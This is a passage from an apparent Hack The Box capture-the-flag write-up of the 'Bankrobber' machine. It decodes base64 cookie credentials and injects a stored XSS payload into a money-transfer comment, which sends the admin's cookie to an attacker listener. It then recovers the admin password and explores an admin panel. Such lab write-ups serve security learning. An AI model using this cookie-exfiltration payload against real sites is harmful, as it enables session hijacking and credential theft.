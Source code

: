 The username and password are stored encoded with _Base64_:
```
echo UGFzczEyMw== | base64 -d

Pass123
```
```
echo dGVzdHVzZXI= | base64 -d

testuser
```

On [PayloadsAllTheThings are many XSS payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) that can be tried out.
Lets test different payloads until it sends the cookie:
```
POST /user/transfer.php
(...)
fromId=3&toId=1&amount=1234&comment=<img src=x onerror=this.src="http://10.10.14.14/?c=" document.cookie />
```

After URL-encoding and sending the request, it takes a while and then sends the cookie of the admin to our listener:
```
Cookie: username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D; id=1
```

Base64-decoded username and password:
```
echo YWRtaW4= | base64 -d

admin
```
```
echo SG9wZWxlc3Nyb21hbnRpYw== | base64 -d

Hopelessromantic
```

With these credentials it is possible to log in and the _admin_ has more features available.

The admin panel has features to _search users_ and a _backdoorchecker_:

![Admin panel](https://kyuu-ji.github.io/htb-write-up/bankrobber/bankrobber_web-3.png)

There is also _notes.txt_ with the following content:
```
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

The _backdoorchecker_ filename is _backdoorchecker.php_ and when running `dir` on it as intended, it tells that it is only allowed from localhost:
```
It's only allowed to access this function from localhost (::1).
This is due to the recent hack attempts on our server.
```
